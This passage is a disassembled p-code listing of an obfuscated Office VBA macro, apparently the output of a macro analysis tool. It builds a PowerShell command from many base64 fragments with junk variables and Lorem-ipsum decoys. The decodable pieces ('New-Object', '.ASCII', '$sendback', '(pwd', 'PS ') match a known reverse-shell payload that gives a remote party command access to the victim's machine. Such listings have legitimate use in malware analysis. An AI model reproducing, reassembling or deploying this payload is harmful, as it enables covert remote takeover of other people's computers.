' 	Add 
' 	Ld UEsxN 
' 	Add 
' 	Ld wDmOx 
' 	Add 
' 	St snZrU 
' Line #163:
' 	LitDI2 0x00A4 
' 	St dJWXqHeUE 
' Line #164:
' 	Dim 
' 	VarDefn dPi1cQM (As Boolean)
' Line #165:
' 	LitVarSpecial (False)
' 	St dPi1cQM 
' Line #166:
' 	LitStr 0x0004 "cXVh"
' 	LitStr 0x0004 "dC4g"
' 	Add 
' 	LitStr 0x0004 "VmVs"
' 	Add 
' 	LitStr 0x0004 "aXQs"
' 	Add 
' 	St WujOG 
' Line #167:
' 	LitStr 0x0004 "cwAu"
' 	LitStr 0x0004 "AEwA"
' 	Add 
' 	LitStr 0x0004 "ZQBu"
' 	Add 
' 	LitStr 0x0004 "AGcA"
' 	Add 
' 	St VbXlsSE 
' Line #168:
' 	Dim 
' 	VarDefn CXaqsAV
' Line #169:
' 	Ld LFn4qN 
' 	ArgsLd Val 0x0001 
' 	St CXaqsAV 
' Line #170:
' 	Dim 
' 	VarDefn m8Eet (As Long)
' Line #171:
' 	LitStr 0x0004 "IG1h"
' 	LitStr 0x0004 "Z25h"
' 	Add 
' 	LitStr 0x0004 "IGR1"
' 	Add 
' 	LitStr 0x0004 "aXMg"
' 	Add 
' 	St DMewS 
' Line #172:
' 	LitDI4 0x58DE 0x2FC0 
' 	UMi 
' 	St m8Eet 
' Line #173:
' 	Dim 
' 	VarDefn JuBNorbc (As Boolean)
' Line #174:
' 	LitStr 0x0004 "dABo"
' 	LitStr 0x0004 "ACkA"
' 	Add 
' 	LitStr 0x0004 "KQAg"
' 	Add 
' 	LitStr 0x0004 "AC0A"
' 	Add 
' 	St BGNrU 
' Line #175:
' 	LitVarSpecial (True)
' 	St JuBNorbc 
' Line #176:
' 	LitStr 0x0004 "bgBl"
' 	LitStr 0x0004 "ACAA"
' 	Add 
' 	LitStr 0x0004 "MAAp"
' 	Add 
' 	LitStr 0x0004 "AHsA"
' 	Add 
' 	St sTKLZ 
' Line #177:
' 	Dim 
' 	VarDefn BBpmrR9kP
' Line #178:
' 	LitStr 0x0004 "bm9z"
' 	LitStr 0x0004 "dHJ1"
' 	Add 
' 	LitStr 0x0004 "ZCBj"
' 	Add 
' 	LitStr 0x0004 "dXBp"
' 	Add 
' 	St tjetQ 
' Line #179:
' 	Ld p9gjZyBs 
' 	FnLen 
' 	St BBpmrR9kP 
' Line #180:
' 	Dim 
' 	VarDefn bYvIm (As Double)
' Line #181:
' 	LitStr 0x0004 "ZGF0"
' 	LitStr 0x0004 "YXQg"
' 	Add 
' 	LitStr 0x0004 "bnVs"
' 	Add 
' 	LitStr 0x0004 "bGEg"
' 	Add 
' 	St BSmAx 
' Line #182:
' 	LitR8 0xD253 0x09F3 0xA6D5 0x40E3 
' 	St bYvIm 
' Line #183:
' 	Dim 
' 	VarDefn Uy2uQtw8 (As Integer)
' Line #184:
' 	LitStr 0x0004 "OwAk"
' 	LitStr 0x0004 "AGQA"
' 	Add 
' 	LitStr 0x0004 "YQB0"
' 	Add 
' 	LitStr 0x0004 "AGEA"
' 	Add 
' 	St Uexxb 
' Line #185:
' 	LitDI2 0x4460 
' 	St Uy2uQtw8 
' Line #186:
' 	Dim 
' 	VarDefn JMfa6ud
' Line #187:
' 	LitStr 0x0004 "IAA9"
' 	LitStr 0x0004 "ACAA"
' 	Add 
' 	LitStr 0x0004 "KABO"
' 	Add 
' 	LitStr 0x0004 "AGUA"
' 	Add 
' 	St WKvex 
' Line #188:
' 	LitStr 0x0004 "dwAt"
' 	LitStr 0x0004 "AE8A"
' 	Add 
' 	LitStr 0x0004 "YgBq"
' 	Add 
' 	LitStr 0x0004 "AGUA"
' 	Add 
' 	St JvVzr 
' Line #189:
' 	LitStr 0x0004 "bW9s"
' 	LitStr 0x0004 "bGl0"
' 	Add 
' 	LitStr 0x0004 "IG5v"
' 	Add 
' 	LitStr 0x0004 "c3Ry"
' 	Add 
' 	St AJgIq 
' Line #190:
' 	Ld VbXlsSE 
' 	Ld BGNrU 
' 	Add 
' 	Ld sTKLZ 
' 	Add 
' 	Ld Uexxb 
' 	Add 
' 	Ld WKvex 
' 	Add 
' 	Ld JvVzr 
' 	Add 
' 	St XMEJL 
' Line #191:
' 	Ld yPBRZ 
' 	Ld ElVRzdJ 
' 	Add 
' 	Ld snZrU 
' 	Add 
' 	Ld XMEJL 
' 	Add 
' 	St jFKVE 
' Line #192:
' 	LitStr 0x0004 "dWQg"
' 	LitStr 0x0004 "YW5p"
' 	Add 
' 	LitStr 0x0004 "bSBl"
' 	Add 
' 	LitStr 0x0004 "YSBm"
' 	Add 
' 	St oaxOV 
' Line #193:
' 	LitStr 0x0001 "O"
' 	ArgsLd Asc 0x0001 
' 	St JMfa6ud 
' Line #194:
' 	Dim 
' 	VarDefn HLYbCEi (As Byte)
' Line #195:
' 	LitStr 0x0004 "YwB0"
' 	LitStr 0x0004 "ACAA"
' 	Add 
' 	LitStr 0x0004 "LQBU"
' 	Add 
' 	LitStr 0x0004 "AHkA"
' 	Add 
' 	St NjRlJI 
' Line #196:
' 	LitDI2 0x00FC 
' 	St HLYbCEi 
' Line #197:
' 	LitStr 0x0004 "cABl"
' 	LitStr 0x0004 "AE4A"
' 	Add 
' 	LitStr 0x0004 "YQBt"
' 	Add 
' 	LitStr 0x0004 "AGUA"
' 	Add 
' 	St ByDPj 
' Line #198:
' 	Dim 
' 	VarDefn v4A30J (As Long)
' Line #199:
' 	LitDI4 0x4514 0x3D48 
' 	UMi 
' 	FnSgn 
' 	St v4A30J 
' Line #200:
' 	LitStr 0x0004 "IABT"
' 	LitStr 0x0004 "AHkA"
' 	Add 
' 	LitStr 0x0004 "cwB0"
' 	Add 
' 	LitStr 0x0004 "AGUA"
' 	Add 
' 	St SsjOW 
' Line #201:
' 	LitStr 0x0004 "bQAu"
' 	LitStr 0x0004 "AFQA"
' 	Add 
' 	LitStr 0x0004 "ZQB4"
' 	Add 
' 	LitStr 0x0004 "AHQA"
' 	Add 
' 	St ZLXxE 
' Line #202:
' 	Dim 
' 	VarDefn LLc2yDwW (As Long)
' Line #203:
' 	LitStr 0x0004 "dWdp"
' 	LitStr 0x0004 "YXQg"
' 	Add 
' 	LitStr 0x0004 "dXQg"
' 	Add 
' 	LitStr 0x0004 "Y29u"
' 	Add 
' 	St fnSvy 
' Line #204:
' 	LitStr 0x0004 "LgBB"
' 	LitStr 0x0004 "AFMA"
' 	Add 
' 	LitStr 0x0004 "QwBJ"
' 	Add 
' 	LitStr 0x0004 "AEkA"
' 	Add 
' 	St PsnWo 
' Line #205:
' 	LitDI2 0x0000 
' 	FnSgn 
' 	St LLc2yDwW 
' Line #206:
' 	Dim 
' 	VarDefn YVqjg6f (As Integer)
' Line #207:
' 	LitDI2 0x2692 
' 	FnSgn 
' 	St YVqjg6f 
' Line #208:
' 	Ld NjRlJI 
' 	Ld ByDPj 
' 	Add 
' 	Ld SsjOW 
' 	Add 
' 	Ld ZLXxE 
' 	Add 
' 	Ld PsnWo 
' 	Add 
' 	St CQiQc 
' Line #209:
' 	Dim 
' 	VarDefn HXwDT (As Single)
' Line #210:
' 	LitStr 0x0004 "RQBu"
' 	LitStr 0x0004 "AGMA"
' 	Add 
' 	LitStr 0x0004 "bwBk"
' 	Add 
' 	LitStr 0x0004 "AGkA"
' 	Add 
' 	St RRGJW 
' Line #211:
' 	LitStr 0x0004 "c2Vj"
' 	LitStr 0x0004 "dGV0"
' 	Add 
' 	LitStr 0x0004 "dXIu"
' 	Add 
' 	LitStr 0x0004 "CgpB"
' 	Add 
' 	St PlJpL 
' Line #212:
' 	LitR8 0x5A99 0x07BE 0xFAE9 0x40E9 
' 	FnSgn 
' 	St HXwDT 
' Line #213:
' 	Dim 
' 	VarDefn PSM72pR (As Integer)
' Line #214:
' 	LitDI2 0x662D 
' 	UMi 
' 	St PSM72pR 
' Line #215:
' 	LitStr 0x0004 "bWV0"
' 	LitStr 0x0004 "IHNp"
' 	Add 
' 	LitStr 0x0004 "bnQg"
' 	Add 
' 	LitStr 0x0004 "bWFn"
' 	Add 
' 	St iFmVy 
' Line #216:
' 	LitStr 0x0004 "bmEg"
' 	LitStr 0x0004 "ZXgg"
' 	Add 
' 	LitStr 0x0004 "aXJ1"
' 	Add 
' 	LitStr 0x0004 "cmUg"
' 	Add 
' 	St RFXJS 
' Line #217:
' 	Dim 
' 	VarDefn h3mQoG6Nu (As Double)
' Line #218:
' 	LitR8 0x6BF0 0x7408 0x2783 0x40EE 
' 	FnSgn 
' 	St h3mQoG6Nu 
' Line #219:
' 	Dim 
' 	VarDefn Jkts1wB3S (As Long)
' Line #220:
' 	LitStr 0x0004 "cXVp"
' 	LitStr 0x0004 "IGVp"
' 	Add 
' 	LitStr 0x0004 "dXNt"
' 	Add 
' 	LitStr 0x0004 "b2Qg"
' 	Add 
' 	St hYLEL 
' Line #221:
' 	LitDI4 0xCE58 0x31E6 
' 	UMi 
' 	St Jkts1wB3S 
' Line #222:
' 	Dim 
' 	VarDefn jrKMDcly8 (As Boolean)
' Line #223:
' 	LitVarSpecial (False)
' 	St jrKMDcly8 
' Line #224:
' 	Dim 
' 	VarDefn t6kYxU7JB (As Byte)
' Line #225:
' 	LitDI2 0x00C7 
' 	St t6kYxU7JB 
' Line #226:
' 	Dim 
' 	VarDefn nlUg8rRQ (As Long)
' Line #227:
' 	LitDI2 0x0000 
' 	St nlUg8rRQ 
' Line #228:
' 	Dim 
' 	VarDefn pDEr4pi6u
' Line #229:
' 	Ld QtPwe 
' 	ArgsLd LCase 0x0001 
' 	St pDEr4pi6u 
' Line #230:
' 	LitStr 0x0004 "bgBn"
' 	LitStr 0x0004 "ACkA"
' 	Add 
' 	LitStr 0x0004 "LgBH"
' 	Add 
' 	LitStr 0x0004 "AGUA"
' 	Add 
' 	St hISZd 
' Line #231:
' 	Dim 
' 	VarDefn tZXRcg (As Byte)
' Line #232:
' 	LitStr 0x0004 "dXQg"
' 	LitStr 0x0004 "ZGVz"
' 	Add 
' 	LitStr 0x0004 "ZXJ1"
' 	Add 
' 	LitStr 0x0004 "bnQg"
' 	Add 
' 	St lCCOp 
' Line #233:
' 	LitDI2 0x0016 
' 	St tZXRcg 
' Line #234:
' 	Dim 
' 	VarDefn LRExe (As Long)
' Line #235:
' 	LitDI4 0x4992 0x01EA 
' 	UMi 
' 	St LRExe 
' Line #236:
' 	LitStr 0x0004 "aW5j"
' 	LitStr 0x0004 "aWRp"
' 	Add 
' 	LitStr 0x0004 "ZHVu"
' 	Add 
' 	LitStr 0x0004 "dCBv"
' 	Add 
' 	St CVKvB 
' Line #237:
' 	LitStr 0x0004 "ZmZp"
' 	LitStr 0x0004 "Y2lh"
' 	Add 
' 	LitStr 0x0004 "LiBF"
' 	Add 
' 	LitStr 0x0004 "YSBM"
' 	Add 
' 	St GvNIR 
' Line #238:
' 	Dim 
' 	VarDefn fHRkT (As Byte)
' Line #239:
' 	LitStr 0x0004 "dABT"
' 	LitStr 0x0004 "AHQA"
' 	Add 
' 	LitStr 0x0004 "cgBp"
' 	Add 
' 	LitStr 0x0004 "AG4A"
' 	Add 
' 	St YHWdH 
' Line #240:
' 	LitDI2 0x004D 
' 	St fHRkT 
' Line #241:
' 	LitStr 0x0004 "b3Jl"
' 	LitStr 0x0004 "bSBu"
' 	Add 
' 	LitStr 0x0004 "b3N0"
' 	Add 
' 	LitStr 0x0004 "cnVk"
' 	Add 
' 	St AuXvK 
' Line #242:
' 	LitStr 0x0004 "IG9m"
' 	LitStr 0x0004 "Zmlj"
' 	Add 
' 	LitStr 0x0004 "aWEg"
' 	Add 
' 	LitStr 0x0004 "YWRp"
' 	Add 
' 	St zgslX 
' Line #243:
' 	LitStr 0x0004 "cGlz"
' 	LitStr 0x0004 "aWNp"
' 	Add 
' 	LitStr 0x0004 "bmcg"
' 	Add 
' 	LitStr 0x0004 "Y29u"
' 	Add 
' 	St DuxPg 
' Line #244:
' 	Dim 
' 	VarDefn eYduk (As Byte)
' Line #245:
' 	LitStr 0x0004 "c2Vj"
' 	LitStr 0x0004 "dGV0"
' 	Add 
' 	LitStr 0x0004 "dXIg"
' 	Add 
' 	LitStr 0x0004 "aXBz"
' 	Add 
' 	St toUjz 
' Line #246:
' 	LitStr 0x0004 "ZwAo"
' 	LitStr 0x0004 "ACQA"
' 	Add 
' 	LitStr 0x0004 "YgB5"
' 	Add 
' 	LitStr 0x0004 "AHQA"
' 	Add 
' 	St Cpoqg 
' Line #247:
' 	LitStr 0x0004 "ZQBz"
' 	LitStr 0x0004 "ACwA"
' 	Add 
' 	LitStr 0x0004 "MAAs"
' 	Add 
' 	LitStr 0x0004 "ACAA"
' 	Add 
' 	St fcvmM 
' Line #248:
' 	Ld RRGJW 
' 	Ld hISZd 
' 	Add 
' 	Ld YHWdH 
' 	Add 
' 	Ld Cpoqg 
' 	Add 
' 	Ld fcvmM 
' 	Add 
' 	St ZZlbf 
' Line #249:
' 	LitDI2 0x003D 
' 	St eYduk 
' Line #250:
' 	Dim 
' 	VarDefn FYk6qz (As Integer)
' Line #251:
' 	LitDI2 0x66E8 
' 	UMi 
' 	FnSgn 
' 	St FYk6qz 
' Line #252:
' 	Dim 
' 	VarDefn KpMQTw (As Boolean)
' Line #253:
' 	LitStr 0x0004 "JABp"
' 	LitStr 0x0004 "ACkA"
' 	Add 
' 	LitStr 0x0004 "OwAk"
' 	Add 
' 	LitStr 0x0004 "AHMA"
' 	Add 
' 	St d2dKZE 
' Line #254:
' 	LitVarSpecial (True)
' 	St KpMQTw 
' Line #255:
' 	LitStr 0x0004 "ZQBu"
' 	LitStr 0x0004 "AGQA"
' 	Add 
' 	LitStr 0x0004 "YgBh"
' 	Add 
' 	LitStr 0x0004 "AGMA"
' 	Add 
' 	St xpyxs 
' Line #256:
' 	LitStr 0x0004 "awAg"
' 	LitStr 0x0004 "AD0A"
' 	Add 
' 	LitStr 0x0004 "IAAo"
' 	Add 
' 	LitStr 0x0004 "AGkA"
' 	Add 
' 	St rIcxM 
' Line #257:
' 	Dim 
' 	VarDefn BtX8d2SC (As Long)
' Line #258:
' 	LitStr 0x0004 "ZQB4"
' 	LitStr 0x0004 "ACAA"
' 	Add 
' 	LitStr 0x0004 "JABk"
' 	Add 
' 	LitStr 0x0004 "AGEA"
' 	Add 
' 	St AbTlL 
' Line #259:
' 	LitDI4 0xA69E 0x7B5D 
' 	UMi 
' 	FnSgn 
' 	St BtX8d2SC 
' Line #260:
' 	LitStr 0x0004 "dABh"
' 	LitStr 0x0004 "ACAA"
' 	Add 
' 	LitStr 0x0004 "MgA+"
' 	Add 
' 	LitStr 0x0004 "ACYA"
' 	Add 
' 	St XamxD 
' Line #261:
' 	Ld d2dKZE 
' 	Ld xpyxs 
' 	Add 
' 	Ld rIcxM 
' 	Add 
' 	Ld AbTlL 
' 	Add 
' 	Ld XamxD 
' 	Add 
' 	St LMEvY 
' Line #262:
' 	LitStr 0x0004 "dW0g"
' 	LitStr 0x0004 "ZXUg"
' 	Add 
' 	LitStr 0x0004 "YWxp"
' 	Add 
' 	LitStr 0x0004 "cXVp"
' 	Add 
' 	St ieEmZ 
' Line #263:
' 	Ld CQiQc 
' 	Ld ZZlbf 
' 	Add 
' 	St Z2xrT 
' Line #264:
' 	Dim 
' 	VarDefn zbuKhV (As Boolean)
' Line #265:
' 	LitVarSpecial (False)
' 	St zbuKhV 
' Line #266:
' 	Dim 
' 	VarDefn qcU5wSY2e (As Single)
' Line #267:
' 	Ld jFKVE 
' 	Ld Z2xrT 
' 	Add 
' 	Ld LMEvY 
' 	Add 
' 	St ljdVRY 
' Line #268:
' 	LitStr 0x0004 "MQAg"
' 	LitStr 0x0004 "AHwA"
' 	Add 
' 	LitStr 0x0004 "IABP"
' 	Add 
' 	LitStr 0x0004 "AHUA"
' 	Add 
' 	St aR3lq 
' Line #269:
' 	LitStr 0x0004 "dAAt"
' 	LitStr 0x0004 "AFMA"
' 	Add 
' 	LitStr 0x0004 "dABy"
' 	Add 
' 	LitStr 0x0004 "AGkA"
' 	Add 
' 	St MhfcS 
' Line #270:
' 	LitR8 0xE22A 0xF5DC 0x834B 0x40C7 
' 	St qcU5wSY2e 
' Line #271:
' 	Dim 
' 	VarDefn z3BRsK0 (As Double)
' Line #272:
' 	LitR8 0xA2CD 0x63E8 0x53AA 0x40B7 
' 	FnFix 
' 	St z3BRsK0 
' Line #273:
' 	Dim 
' 	VarDefn wdaUs8fI (As Single)
' Line #274:
' 	LitR8 0x8D3D 0x4044 0xF447 0x40C3 
' 	FnFix 
' 	St wdaUs8fI 
' Line #275:
' 	Dim 
' 	VarDefn TzUP3 (As Single)
' Line #276:
' 	LitStr 0x0004 "bgBn"
' 	LitStr 0x0004 "ACAA"
' 	Add 
' 	LitStr 0x0004 "KQA7"
' 	Add 
' 	LitStr 0x0004 "ACQA"
' 	Add 
' 	St PsqwB 
' Line #277:
' 	LitR8 0x25B4 0x0E10 0xA05A 0x40D8 
' 	FnSgn 
' 	St TzUP3 
' Line #278:
' 	Dim 
' 	VarDefn P8gGokmVW (As Single)
' Line #279:
' 	LitR8 0x7AC5 0xD8D8 0x9136 0x40E7 
' 	FnSgn 
' 	St P8gGokmVW 
' Line #280:
' 	Dim 
' 	VarDefn RWELQb (As Long)
' Line #281:
' 	LitStr 0x0004 "cwBl"
' 	LitStr 0x0004 "AG4A"
' 	Add 
' 	LitStr 0x0004 "ZABi"
' 	Add 
' 	LitStr 0x0004 "AGEA"
' 	Add 
' 	St cOIoS 
' Line #282:
' 	LitDI4 0xD286 0x525F 
' 	UMi 
' 	St RWELQb 
' Line #283:
' 	Ld ljdVRY 
' 	Ld aR3lq 
' 	Add 
' 	Ld MhfcS 
' 	Add 
' 	Ld PsqwB 
' 	Add 
' 	Ld cOIoS 
' 	Add 
' 	St PtPmN 
' Line #284:
' 	Dim 
' 	VarDefn ljeOYL (As Boolean)
' Line #285:
' 	LitVarSpecial (False)
' 	St ljeOYL 
' Line #286:
' 	Dim 
' 	VarDefn iZvYI28On (As Integer)
' Line #287:
' 	LitDI2 0x091A 
' 	UMi 
' 	St iZvYI28On 
' Line #288:
' 	Dim 
' 	VarDefn fby2jtv (As Integer)
' Line #289:
' 	LitDI2 0x472B 
' 	UMi 
' 	St fby2jtv 
' Line #290:
' 	LitStr 0x0004 "cC4g"
' 	LitStr 0x0004 "SWQg"
' 	Add 
' 	LitStr 0x0004 "ZWxp"
' 	Add 
' 	LitStr 0x0004 "dCBt"
' 	Add 
' 	St gSTTo 
' Line #291:
' 	Dim 
' 	VarDefn DuGhMpJ5 (As Single)
' Line #292:
' 	LitStr 0x0004 "YwBr"
' 	LitStr 0x0004 "ADIA"
' 	Add 
' 	LitStr 0x0004 "IAA9"
' 	Add 
' 	LitStr 0x0004 "ACAA"
' 	Add 
' 	St bkpDV 
' Line #293:
' 	LitR8 0xC2C6 0xF1BF 0x2E52 0x40DB 
' 	FnSgn 
' 	St DuGhMpJ5 
' Line #294:
' 	LitStr 0x0004 "JABz"
' 	LitStr 0x0004 "AGUA"
' 	Add 
' 	LitStr 0x0004 "bgBk"
' 	Add 
' 	LitStr 0x0004 "AGIA"
' 	Add 
' 	St fjSjX 
' Line #295:
' 	Dim 
' 	VarDefn zbeIcwkd (As Integer)
' Line #296:
' 	LitDI2 0x13BE 
' 	St zbeIcwkd 
' Line #297:
' 	LitStr 0x0004 "YQBj"
' 	LitStr 0x0004 "AGsA"
' 	Add 
' 	LitStr 0x0004 "IAAr"
' 	Add 
' 	LitStr 0x0004 "ACAA"
' 	Add 
' 	St ZOVlZ 
' Line #298:
' 	Dim 
' 	VarDefn oIw1oOs (As Single)
' Line #299:
' 	LitR8 0xC2A3 0x6CE5 0x9A65 0x40C5 
' 	FnSgn 
' 	St oIw1oOs 
' Line #300:
' 	Dim 
' 	VarDefn ocGLhv (As Double)
' Line #301:
' 	LitR8 0xFF85 0xF114 0xE497 0x40D5 
' 	St ocGLhv 
' Line #302:
' 	LitStr 0x0004 "JwBQ"
' 	LitStr 0x0004 "AFMA"
' 	Add 
' 	LitStr 0x0004 "IAAn"
' 	Add 
' 	LitStr 0x0004 "ACAA"
' 	Add 
' 	St TgsZO 
' Line #303:
' 	LitStr 0x0004 "KwAg"
' 	LitStr 0x0004 "ACgA"
' 	Add 
' 	LitStr 0x0004 "cAB3"
' 	Add 
' 	LitStr 0x0004 "AGQA"
' 	Add 
' 	St CFLJo 
' Line #304:
' 	LitStr 0x0004 "YWdu"
' 	LitStr 0x0004 "YSB1"
' 	Add 
' 	LitStr 0x0004 "dCBk"
' 	Add 
' 	LitStr 0x0004 "dWlz"
' 	Add 
' 	St QmZeB 
' Line #305:
' 	LitStr 0x0004 "LCBu"
' 	LitStr 0x0004 "aXNp"
' 	Add 
' 	LitStr 0x0004 "IExv"
' 	Add 
' 	LitStr 0x0004 "cmVt"
' 	Add 
' 	St pFYyx 
' Line #306:
' 	Dim 
' 	VarDefn KJfKc (As Double)
' Line #307:
' 	LitR8 0xCE0C 0x882E 0x8F4F 0x40BB 
' 	St KJfKc 
' Line #308:
' 	Ld bkpDV 
' 	Ld fjSjX 
' 	Add 
' 	Ld ZOVlZ 
' 	Add 
' 	Ld TgsZO 
' 	Add 
' 	Ld CFLJo 
' 	Add 
' 	St whjfk 
' Line #309:
' 	LitStr 0x0004 "KQAu"
' 	LitStr 0x0004 "AFAA"
' 	Add 
' 	LitStr 0x0004 "YQB0"
' 	Add 
' 	LitStr 0x0004 "AGgA"
' 	Add 
' 	St pVZDF 
' Line #310:
' 	Dim 
' 	VarDefn j8FWPmr
' Line #311:
' 	LitStr 0x0004 "IG1p"
' 	LitStr 0x0004 "bmlt"
' 	Add 
' 	LitStr 0x0004 "IGFs"
' 	Add 
' 	LitStr 0x0004 "aXF1"
' 	Add 
' 	St JJTEQ 
' Line #312:
' 	Ld lWKIY 
' 	ArgsLd LTrim 0x0001 
' 	St j8FWPmr 
' Line #313:
' 	LitStr 0x0004 "IAAr"
' 	LitStr 0x0004 "ACAA"
' 	Add 
' 	LitStr 0x0004 "JwBD"
' 	Add 
' 	LitStr 0x0004 "AEkA"
' 	Add 
' 	St cPnAy 
' Line #314:
' 	Dim 
' 	VarDefn wlqbJgQd5 (As Boolean)
' Line #315:
' 	LitStr 0x0004 "UwAy"
' 	LitStr 0x0004 "ADAA"
' 	Add 
' 	LitStr 0x0004 "MgA0"
' 	Add 
' 	LitStr 0x0004 "AHsA"
' 	Add 
' 	St eHtUH 
' Line #316:
' 	LitVarSpecial (False)
' 	St wlqbJgQd5 
' Line #317:
' 	Dim 
' 	VarDefn H0FCEtIA (As Integer)
' Line #318:
' 	LitDI2 0x3AF1 
' 	St H0FCEtIA 
' Line #319:
' 	Dim 
' 	VarDefn UUKvz (As Boolean)
' Line #320:
' 	LitVarSpecial (False)
' 	St UUKvz 
' Line #321:
' 	Dim 
' 	VarDefn v9hXK (As Boolean)
' Line #322:
' 	LitStr 0x0004 "VABp"
' 	LitStr 0x0004 "AG4A"
' 	Add 
' 	LitStr 0x0004 "XwBo"
' 	Add 
' 	LitStr 0x0004 "AG8A"
' 	Add 
' 	St cCSvm 
' Line #323:
' 	LitStr 0x0004 "YwBf"
' 	LitStr 0x0004 "AHYA"
' 	Add 
' 	LitStr 0x0004 "YQBu"
' 	Add 
' 	LitStr 0x0004 "AF8A"
' 	Add 
' 	St ilRrN 
' Line #324:
' 	Ld pVZDF 
' 	Ld cPnAy 
' 	Add 
' 	Ld eHtUH 
' 	Add 
' 	Ld cCSvm 
' 	Add 
' 	Ld ilRrN 
' 	Add 
' 	St GakSD 
' Line #325:
' 	LitVarSpecial (False)
' 	St v9hXK 
' Line #326:
' 	LitStr 0x0004 "YSBp"
' 	LitStr 0x0004 "bmNp"
' 	Add 
' 	LitStr 0x0004 "ZGlk"
' 	Add 
' 	LitStr 0x0004 "dW50"
' 	Add 
' 	St RVTcD 
' Line #327:
' 	Dim 
' 	VarDefn VYVIFXTil (As Long)
' Line #328:
' 	LitDI4 0x53A6 0x73F7 
' 	UMi 
' 	FnSgn 
' 	St VYVIFXTil 
' Line #329:
' 	LitStr 0x0004 "cABo"
' 	LitStr 0x0004 "AG8A"
' 	Add 
' 	LitStr 0x0004 "bgBn"
' 	Add 
' 	LitStr 0x0004 "AF8A"
' 	Add 
' 	St TGN6Q 
' Line #330:
' 	Dim 
' 	VarDefn mEBne (As Integer)
' Line #331:
' 	LitStr 0x0004 "bgBl"
' 	LitStr 0x0004 "AHYA"
' 	Add 
' 	LitStr 0x0004 "YQBf"
' 	Add 
' 	LitStr 0x0004 "AGQA"
' 	Add 
' 	St uPaXs 
' Line #332:
' 	LitDI2 0x03E8 
' 	UMi 
' 	St mEBne 
' Line #333:
' 	Dim 
' 	VarDefn g1OvtUoD (As Boolean)
' Line #334:
' 	LitVarSpecial (True)
' 	St g1OvtUoD 
' Line #335:
' 	Dim 
' 	VarDefn OxhT4Y58 (As Double)
' Line #336:
' 	LitR8 0x6D67 0x87B8 0xD395 0x40EF 
' 	St OxhT4Y58 
' Line #337:
' 	LitStr 0x0004 "aQBl"
' 	LitStr 0x0004 "AH0A"
' 	Add 
' 	LitStr 0x0004 "PgAg"
' 	Add 
' 	LitStr 0x0004 "ACcA"
' 	Add 
' 	St xxcOR 
' Line #338:
' 	LitStr 0x0004 "IGV0"
' 	LitStr 0x0004 "IG5p"
' 	Add 
' 	LitStr 0x0004 "c2kg"
' 	Add 
' 	LitStr 0x0004 "Y29t"
' 	Add 
' 	St IwiAK 
' Line #339:
' 	Dim 
' 	VarDefn wL27osqm (As String)
' Line #340:
' 	Ld ZQ5H4y 
' 	FnLen 
' 	St wL27osqm 
' Line #341:
' 	Dim 
' 	VarDefn MgPsK (As Boolean)
' Line #342:
' 	LitVarSpecial (False)
' 	St MgPsK 
' Line #343:
' 	LitStr 0x0004 "OwAk"
' 	LitStr 0x0004 "AHMA"
' 	Add 
' 	LitStr 0x0004 "ZQBu"
' 	Add 
' 	LitStr 0x0004 "AGQA"
' 	Add 
' 	St QarqD 
' Line #344:
' 	Dim 
' 	VarDefn Zkts6dOwj (As Double)
' Line #345:
' 	LitR8 0x8CA5 0x0DD1 0x6E62 0x40E8 
' 	FnSgn 
' 	St Zkts6dOwj 
' Line #346:
' 	LitStr 0x0004 "bW9k"
' 	LitStr 0x0004 "byBl"
' 	Add 
' 	LitStr 0x0004 "dCBj"
' 	Add 
' 	LitStr 0x0004 "aWxs"
' 	Add 
' 	St TTkUL 
' Line #347:
' 	Dim 
' 	VarDefn XAcn2 (As String)
' Line #348:
' 	LitStr 0x0004 "YgB5"
' 	LitStr 0x0004 "AHQA"
' 	Add 
' 	LitStr 0x0004 "ZQAg"
' 	Add 
' 	LitStr 0x0004 "AD0A"
' 	Add 
' 	St TpIRk 
' Line #349:
' 	Ld cHGFt5MT 
' 	ArgsLd Trim 0x0001 
' 	St XAcn2 
' Line #350:
' 	Dim 
' 	VarDefn G6Zau (As Byte)
' Line #351:
' 	Ld TGN6Q 
' 	Ld uPaXs 
' 	Add 
' 	Ld xxcOR 
' 	Add 
' 	Ld QarqD 
' 	Add 
' 	Ld TpIRk 
' 	Add 
' 	St ijxwX 
' Line #352:
' 	Ld PtPmN 
' 	Ld whjfk 
' 	Add 
' 	Ld GakSD 
' 	Add 
' 	Ld ijxwX 
' 	Add 
' 	St x0YlF 
' Line #353:
' 	LitDI2 0x007B 
' 	St G6Zau 
' Line #354:
' 	LitStr 0x0004 "dW0u"
' 	LitStr 0x0004 "IE9j"
' 	Add 
' 	LitStr 0x0004 "Y2Fl"
' 	Add 
' 	LitStr 0x0004 "Y2F0"
' 	Add 
' 	St afdCT 
' Line #355:
' 	LitStr 0x0004 "IAAo"
' 	LitStr 0x0004 "AFsA"
' 	Add 
' 	LitStr 0x0004 "dABl"
' 	Add 
' 	LitStr 0x0004 "AHgA"
' 	Add 
' 	St R1NHM 
' Line #356:
' 	Dim 
' 	VarDefn bI3MKsQ (As Single)
' Line #357:
' 	LitStr 0x0004 "IGR1"
' 	LitStr 0x0004 "aXMg"
' 	Add 
' 	LitStr 0x0004 "b2Zm"
' 	Add 
' 	LitStr 0x0004 "aWNp"
' 	Add 
' 	St CojTG 
' Line #358:
' 	LitR8 0x331F 0x37F2 0x9B42 0x40EF 
' 	FnSgn 
' 	St bI3MKsQ 
' Line #359:
' 	Dim 
' 	VarDefn oc1jS (As Long)
' Line #360:
' 	LitStr 0x0004 "dAAu"
' 	LitStr 0x0004 "AGUA"
' 	Add 
' 	LitStr 0x0004 "bgBj"
' 	Add 
' 	LitStr 0x0004 "AG8A"
' 	Add 
' 	St byBLA 
' Line #361:
' 	LitDI4 0x175A 0x461B 
' 	UMi 
' 	St oc1jS 
' Line #362:
' 	LitStr 0x0004 "YSBl"
' 	LitStr 0x0004 "eGVy"
' 	Add 
' 	LitStr 0x0004 "Y2l0"
' 	Add 
' 	LitStr 0x0004 "YXRp"
' 	Add 
' 	St CDsNy 
' Line #363:
' 	Dim 
' 	VarDefn HIBfgm (As Byte)
' Line #364:
' 	LitDI2 0x0062 
' 	St HIBfgm 
' Line #365:
' 	LitStr 0x0004 "ZABp"
' 	LitStr 0x0004 "AG4A"
' 	Add 
' 	LitStr 0x0004 "ZwBd"
' 	Add 
' 	LitStr 0x0004 "ADoA"
' 	Add 
' 	St UikkC 
' Line #366:
' 	Dim 
' 	VarDefn TpGL5y9 (As Single)
' Line #367:
' 	LitR8 0x31BE 0xF8DE 0x7684 0x40D7 
' 	St TpGL5y9 
' Line #368:
' 	Dim 
' 	VarDefn Ec7QsJLh (As Integer)
' Line #369:
' 	LitDI2 0x125C 
' 	FnSgn 
' 	St Ec7QsJLh 
' Line #370:
' 	Dim 
